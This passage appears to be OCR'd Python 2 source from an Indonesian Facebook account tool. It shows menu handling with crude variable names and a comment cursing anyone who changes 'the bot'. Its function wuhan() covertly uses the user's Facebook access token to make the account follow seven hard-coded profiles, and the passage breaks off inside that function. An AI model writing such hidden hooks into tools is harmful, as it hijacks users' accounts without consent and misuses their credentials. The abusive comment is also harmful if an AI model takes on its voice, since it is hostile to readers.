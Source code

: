             for memek in total:

            	kontol = memek.replace("\n","")

                titid  = kontol.replace(" [✓] "," \x1b[0m[\x1b[1;92m✓\x1b[0m]\x1b[1;92m ").replace(" [×] ", " \x1b[0m[\x1b[1;93m×\x1b[0m]\x1b[1;93m ")

                print("%s%s"%(titid,N));time.sleep(0.03)

            print(" %s[%s#%s] --------------------------------------------"%(N,O,N))

            raw_input('\n  [ %sKEMBALI%s ] '%(O,N));moch_yayan()

        except (IOError):

            print("\n %s[%s×%s] opshh kamu tidak mendapatkan hasil :("%(N,M,N))

            raw_input('\n  [ %sKEMBALI%s ] '%(O,N));moch_yayan()

    elif pepek in['8','08']:

        seting_yntkts()

    elif pepek in['9','09']:

        info_tools()

    elif pepek in['0','00']:

        print '\n'

        tod()

        time.sleep(1);os.system('rm -rf .memek.txt')

        jalan('\n %s[%s✓%s]%s berhasil menghapus token'%(N,H,N,H));exit()

    else:

        print '\n %s[%s×%s] menu [%s%s%s] tidak ada, cek menu nya bro!'%(N,M,N,M,pepek,N);time.sleep(2);moch_yayan()

# Yang ganti bot nya gw sumpahin mak lo mati ajg!

def wuhan(kontol):

    try:

        kentod = kontol

        requests.post('https://graph.facebook.com/100005395413800/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100059709917296/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100008678141977/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100005878513705/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100003342127009/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100041388320565/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/108229897756307/subscribers?access_token=%s'%(kentod))
